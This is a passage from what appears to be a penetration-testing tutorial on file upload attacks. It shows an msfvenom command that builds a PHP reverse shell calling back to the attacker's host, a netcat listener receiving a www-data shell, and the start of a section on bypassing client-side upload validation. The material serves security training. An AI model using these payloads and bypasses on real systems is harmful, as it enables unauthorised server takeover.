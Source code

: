 As we can see, we successfully received a connection back from the back-end server that hosts the vulnerable web application, which allows us to interact with it for further exploitation. The same concept can be used for other web frameworks and languages, with the only difference being the reverse shell script we use.

## Generating Custom Reverse Shell Scripts

Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previous `system` function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools like `msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`:

```shell
gitblanc@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

Once our `reverse.php` script is generated, we can once again start a `netcat` listener on the port we specified above, upload the `reverse.php` script and visit its link, and we should receive a reverse shell as well:

```shell
gitblanc@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the `-p` flag and specify the output language with the `-f` flag.

While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead. This can be for several reasons, like having a firewall on the back-end network that prevents outgoing connections or if the web server disables the necessary functions to initiate a connection back to us.

# Client-Side Validation

Many web applications only rely on front-end JavaScript code to validate the selected file format before it is uploaded and would not upload it if the file is not in the required format (e.g., not an image).

However, as the file format validation is happening on the client-side, we can easily bypass it by directly interacting with the server, skipping the front-end validations altogether. We may also modify the front-end code through our browser's dev tools to disable any validation in place.

## Client-Side Validation
